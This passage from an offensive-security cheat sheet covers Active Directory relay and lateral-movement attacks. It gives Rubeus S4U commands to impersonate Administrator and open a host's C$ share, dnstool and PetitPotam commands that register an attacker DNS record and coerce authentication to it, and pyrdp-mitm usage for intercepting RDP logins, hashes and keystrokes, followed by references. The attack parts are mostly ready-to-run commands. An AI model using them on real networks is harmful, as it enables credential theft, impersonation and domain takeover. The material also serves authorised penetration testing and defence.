 * Use the created account to ask for a service ticket: 
    ```ps1
    .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'
    .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F /impersonateuser:Administrator /msdsspn:host/pc1.purple.lab /altservice:cifs /nowrap /ptt
    ls \\PC1.purple.lab\c$
    # IP of PC1: 10.0.0.4
    ```

An alternative for the previous exploitation method is to register a **DNS entry** for the attack machine by yourself then trigger the coercion.

```ps1
python3 /opt/krbrelayx/dnstool.py -u lab.lan\\jdoe -p 'P@ssw0rd' -r attacker.lab.lan -a add -d 192.168.1.50 192.168.1.2
python3 /opt/PetitPotam.py -u jdoe -p 'P@ssw0rd' -d lab.lan attacker@80/test 192.168.1.3
```


## Man-in-the-middle RDP connections with pyrdp-mitm

* https://github.com/GoSecure/pyrdp
* https://www.gosecure.net/blog/2018/12/19/rdp-man-in-the-middle-smile-youre-on-camera/

**Usage**

```sh
pyrdp-mitm.py <IP>
pyrdp-mitp.py <IP>:<PORT> # with custom port
pyrdp-mitm.py <IP> -k private_key.pem -c certificate.pem # with custom key and certificate
```

**Exploitation**

* If Network Level Authentication (NLA) is enabled, you will obtain the client's NetNTLMv2 challenge
* If NLA is disabled, you will obtain the password in plaintext
* Other features are available such as keystroke recording

**Alternatives**

* S3th: https://github.com/SySS-Research/Seth, performs ARP spoofing prior to launching the RDP listener	


## References

* [Drop the MIC - CVE-2019-1040 - Marina Simakov - Jun 11, 2019](https://blog.preempt.com/drop-the-mic)
* [Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin - Dirk-jan Mollema - June 13, 2019](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)
* [Lateral Movement – WebClient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
* [NTLM Relaying to LDAP - The Hail Mary of Network Compromise - @logangoins - July 23, 2024](https://logan-goins.com/2024-07-23-ldap-relay/)
* [Playing with Relayed Credentials - June 27, 2018](https://www.secureauth.com/blog/playing-relayed-credentials)
* [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover - Nick Powers - 07/27/2024](https://www.youtube.com/watch?v=iBqOOkQGJEA)
* [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher - Mar 9, 2018](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)